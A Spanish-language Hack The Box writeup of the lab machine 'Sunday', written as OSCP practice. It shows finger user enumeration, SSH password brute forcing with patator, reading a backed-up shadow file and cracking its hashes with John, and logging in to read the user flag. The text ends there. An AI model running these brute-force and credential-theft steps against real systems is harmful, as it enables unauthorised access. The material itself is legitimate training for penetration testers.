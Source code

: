 ```yaml
---
layout: post
title:  "OSCP Path ~ Sunday de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada Sunday siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Sunday ~ Hack The Box to OSCP

Realizamos el escaneo con Nmap de puertos y servicios abiertos
```bash
PORT      STATE  SERVICE VERSION
79/tcp    open   finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2            Sat 17:20  10.10.16.210        \x0D
|_sammy    sammy                 pts/3            Sat 18:03  10.10.16.210        \x0D
111/tcp   open   rpcbind
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
46385/tcp closed unknown
63929/tcp closed unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

Vemos que tenemos el servicio `finger` que sirve para enumerar usuarios cuando se conectan
```bash
# finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76                                                                                                                              1 ⚙
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /opt/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Jul 29 11:20:02 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31, 2020>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Thu Jul 29 11:57:39 2021 #########
15 results.

10177 queries in 2257 seconds (4.5 queries / sec)
```
Se ve mucho ruido con esta herramienta, pues por eso es importante fijarnos solo en los usuarios que tenga fecha y hora.
```bash
user: sunny, sunday
```
 Teniendo estos usuarios procedemos a probar fuerza bruta por el puerto SSH con la herramienta `patator`
 ```bash
 # patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=users.txt password=FILE1 1=passwd_ssh_brute -x ignore:fgrep='failed'
12:53:58 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-07-29 12:53 CEST
12:53:58 patator    INFO -                                                                              
12:53:58 patator    INFO - code  size    time | candidate                          |   num | mesg
12:53:58 patator    INFO - -----------------------------------------------------------------------------
12:54:13 patator    INFO - 0     19     5.936 | sunny:sunday                       |    11 | SSH-2.0-Sun_SSH_1.3
12:54:14 patator    INFO - Hits/Done/Skip/Fail/Size: 1/18/0/0/18, Avg: 1 r/s, Time: 0h 0m 15s
```
# SSH Error Algorithms - Solution
Procedemos a intentar conectarnos por ssh con las credenciales obtenidas:
```bash
# ssh sunny@10.10.10.76 -p 22022                                                                                                 
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
Se nos lanza un error por un algoritmo de codificacion llamado `diffie-helman`.. pero lo solucionamos de la siguiente forma:
```bash
 ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
 ```
Con el parametro `-oKexALgorithms=` procedemos a especificarle el algoritmo que nos da problemas `+diffie-hellman-group1-sha1`
```bash
# ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
Password: 
Last login: Thu Jul 29 16:24:15 2021 from 10.10.16.212
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```
Conseguimos conectarnos correctamente. Procedemos a enumerar un poco el sistema.

# Escalada de Privilegios
Procdemos con los comandos tipicos para enumera el sistema:
`sudo -l`
```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
`id`
```bash
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
```
`uname -a`
```bash
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```
Procedemos a movernos a la raiz `/` para enumerar directorios
```bash
cd /backup
cat shadow.backup
```
Sacamos los Hashes de un archivo shadow.backup de los siguientes usuarios
```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Procedo a intentar Crackearlos con el uso de `John`
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hashes      
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"sunday "          (sunny)
"cooldude!"        (sammy)
2g 0:00:00:10 DONE (2021-07-29 13:29) 0.1978g/s 20257p/s 20662c/s 20662C/s infinitig35..bluemoon2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Probamos a usar el comando `su` para con la contraseña del usuario sammy conectarnos pero no nos funciona
Porque no probamos por ssh
```bash
# ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1                                                                                                                                  1 ⨯
Password: 
Password: 
Last login: Thu Jul 29 17:26:31 2021 from 10.10.16.218
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ ls
Desktop  Documents  Downloads  Public
```
Conseguimos entrar correctamente por ssh
```bash
sammy@sunday:~$ cd Desktop/
sammy@sunday:~/Desktop$ ls
user.txt
sammy@sunday:~/Desktop$ cat user.txt 
a3d9498027ca5187ba1793xxxxxxxxxxxx
```
Sacamos la flag de `user.txt`
